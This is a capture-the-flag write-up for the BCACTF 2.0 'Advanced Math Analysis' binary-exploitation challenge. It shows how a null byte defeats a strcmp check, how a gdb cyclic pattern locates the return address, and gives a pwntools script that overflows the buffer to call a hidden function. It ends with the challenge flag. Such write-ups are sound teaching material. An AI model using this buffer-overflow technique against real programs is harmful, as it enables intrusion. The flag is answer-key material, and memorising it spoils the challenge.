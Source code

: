 # BCACTF 2.0 – Advanced Math Analysis

* **Category:** Binex
* **Points:** 200
* **Author:** [Wesley V](https://github.com/retoxified)

## Challenge

> The advanced course covers the same content as the non-advanced course and then some. Specifically, it also teaches some units on logic and geometry.
>
> Now, I'm personally not the biggest fan of geometry, so I'll spare you from that. But you'll definitely need to spend some time logicing this challenge out!

## Solution

The challenge page provides us with a [binary](Backup/adv-analysis) and the [C code](Backup/adv-analysis.c) it was compiled from.

By looking at the code we can quickly see that it's nearly identical to [Math Analysis](Math%20Analysis.md). Our goal is once again to execute the `cheat` function. The catch is that it now checks if our input equals `i pledge to not cheat` using [strcmp](https://man7.org/linux/man-pages/man3/strcmp.3.html).

strcmp will compare two strings character by character until it finds a character that differs, or until it reaches a null byte. We can send a null byte by using CTRL+@(shows as ^@ in the console), so after loading the binary in gdb, we send `i pledge to not cheat^@AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL` to see where the return address is located.

![Image](Docs/advanced-math-analysis-1.jpg)

![Image](Docs/advanced-math-analysis-2.jpg)

After grabbing the address of the cheat function from gdb, we now have all we need to exploit this binary.

```python
from pwn import *

#p = process('./adv-analysis')
p = remote('bin.bcactf.com', 49156)

offs_cheat = 0x401216

p.sendline(b"i pledge to not cheat\x00" + b"A"*50 + p64(offs_cheat))

p.interactive()
```

Running this results in
```
Welcome to the more advanced math class!
Unlike the folks in regular analysis, you'll have to put in more effort.
That's because this class has a strict anti-cheating defense.
Ha, take that!
We have to maintain the BCA reputation somehow, y'know.
> Hey, I'm glad you decided to be honest and not cheat!
Makes my life a whole lot easier when I can let my guard down.
You still have to do tests and whatnot, but that's a you problem.
bcactf{corresponding_parts_of_congurent_triangles_are_congruent_ie_CPCCTCPTPPTCTC}
```

So the flag for this challenge is:

`bcactf{corresponding_parts_of_congurent_triangles_are_congruent_ie_CPCCTCPTPPTCTC}`